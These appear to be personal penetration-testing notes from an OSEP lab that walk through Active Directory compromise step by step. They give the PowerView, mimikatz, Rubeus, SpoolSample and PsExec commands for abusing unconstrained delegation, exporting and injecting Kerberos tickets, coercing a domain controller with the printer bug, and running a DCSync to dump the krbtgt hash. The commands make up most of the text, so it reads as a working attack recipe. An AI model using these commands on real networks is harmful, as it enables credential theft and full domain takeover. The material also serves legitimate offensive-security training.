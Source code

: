 ```
. .\powerview.ps1
Get-DomainComputer -Unconstrained
```

![[Pasted image 20210702212242.png]]

If unconstrained delegation enabled, we can capture ticket for any users and inject(In osep lab i had to login to another windows 10 client to capture admin ticket(Some kind of force authentication)):

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

```



```
mimikatz # kerberos::ptt  [0;17f185]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

exit
```

Now try to login to domain controller with psExec:
```
PS C:\tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd
```

![[Pasted image 20210702235813.png]]

### The Printer Bug (Become domain controller)

Exploit Poc: https://github.com/leechristensen/SpoolSample

If printer service is running we should get response
```
PS C:\Tools> dir \\cdc01\pipe\spoolss
```

Now Run this command from Administrator CMD: 
```
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

Open another cmd and run the SpoolSample to get output in Rubeus CMD(Note: CDC01 is the target and APPSRV01 is the Current domain we are attacking from where where output will be sent):
```
> SpoolSample.exe CDC01 APPSRV01
```

From the Rubeus.exe cmd copy the tickets and inject into memory:
```
> Rubeus.exe ptt /ticket:rubes_output_ticket
```
![](Pasted%20image%2020210707154253.png)

If the domain controller(CDC01), not local administrator account we can't laterally move. But if it has replication permission, we can perform dcsync attack to dump hash. With the has we can create golden ticket to access any resource in the DC. Alternatively, we can dump the password hash of a member of the Domain Admins group:

```
mimikatz# lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```
